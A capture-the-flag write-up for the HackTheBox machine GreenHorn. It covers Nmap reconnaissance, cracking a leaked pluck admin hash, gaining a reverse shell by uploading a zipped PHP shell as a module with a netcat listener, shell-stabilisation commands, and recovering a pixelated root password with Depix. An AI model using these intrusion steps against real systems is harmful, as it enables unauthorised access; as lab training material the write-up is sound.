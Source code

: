 ```yaml
---
title: GreenHorn
tags:
  - Linux
  - Gitea
  - Image-altering
  - pluck
  - HackTheBox
  - Easy
date: 2024-06-31T00:00:00Z
---
```

![](Pasted%20image%2020240831134445.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.25 greenhorn.htb" | sudo tee -a /etc/hosts
```

Then, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- greenhorn.htb > sC.txt

[redacted]
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 13:49 CEST
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.052s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
| http-title: Welcome to GreenHorn ! - GreenHorn
|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-generator: pluck 4.7.18
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 16.94 seconds
```

Once here, I wanted to know what was running behind port 3000, so I performed a second Nmap scan:

```shell
nmap -sV -T4 -p3000 greenhorn.htb > 3000.txt

[redacted]
PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=8/31%Time=66D30413%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,2A60,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=03590820c397ed70;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=4zHg6DP56G3gshFrNeJnU_59YzE6MTcyNTEwNTE3MjQ3NzU1NjE0MQ;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2031\x20Aug\x202024\x2011:52:52\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,
SF:\x20private,\x20must-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_li
SF:ke_gitea=52cab2608e5c1e43;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nS
SF:et-Cookie:\x20_csrf=RFSsje4aI_Ju3Mo11zKJxHEhGTc6MTcyNTEwNTE3NzgyMzY2MjY
SF:3Mg;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Fra
SF:me-Options:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2031\x20Aug\x202024\x2011:5
SF:2:57\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=
SF:utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
```

I decided to take a look at the website at port 80:

![](Pasted%20image%2020240831135058.png)

I didn't find anything interesting, so I decided to take a look at port 3000:

![](Pasted%20image%2020240831140733.png)

Gitea was found!, so I created a user inside:

![](Pasted%20image%2020240831140823.png)

Once in, I looked up for the GreenHorn source code:

![](Pasted%20image%2020240831141300.png)

![](Pasted%20image%2020240831141316.png)

I discovered a `login.php` file, which had the following:

![](Pasted%20image%2020240831141844.png)

So I took a look at that specific file, which had the passwd stored in sha512:

![](Pasted%20image%2020240831141935.png)

I took a look at [https://crackstation.net/](https://crackstation.net/) and this was the output:

![](Pasted%20image%2020240831142043.png)

So now, I can login into `login.php`:

![](Pasted%20image%2020240831142244.png)

We're in:

![](Pasted%20image%2020240831142914.png)

So it's time to get a reverse shell.

## Weaponization

Found this RCE script: [https://www.exploit-db.com/exploits/51592](https://www.exploit-db.com/exploits/51592)

## Exploitation

Go to `options` >> `manage modules` >> `Install a module`:

![](Pasted%20image%2020240831145228.png)

Then upload a `.zip` file containing a php reverse shell:
1. Create a `.php` reverse shell
2. Zip it: `zip result.zip shell.php`
3. Start a netcat listener: `nc -lvnp PORT`
4. Upload it:

![](Pasted%20image%2020240831145826.png)

> We've got a shell :D

![](Pasted%20image%2020240831145854.png)

Stabilise it with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

> Sadly we've got no read permissions onto `user.txt` flag:

![](Pasted%20image%2020240831150110.png)

>After some time searching, I managed to use the pluck password with the junior account (*kinda noobie btw xd*)

> Got the user flag!:

![](Pasted%20image%2020240831150958.png)

## Privilege Escalation

I downloaded onto my machine the **'Using OpenVAS.pdf'**

![](Pasted%20image%2020240831151715.png)

Now, we can try to eliminate the pixels in the password using `pdfimage`:
- Install with `apt-get install poppler-utils`

```shell
pdfimages Using\ OpenVAS.pdf greenhornhtb
```

We get this result:

![](Pasted%20image%2020240831152138.png)

Now we can use a tool called [Depix](https://github.com/spipm/Depix) to eliminate those pixels on the image:

```shell
python3 depix.py -p ../greenhornhtb-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ../result.png
```

We get this ouput:

![](result.png)

So let's try this password for the user root:

`root:sidefromsidetheothersidesidefromsidetheotherside`

![](Pasted%20image%2020240831152902.png)

> We got the root flag :D

==Machine pwned!==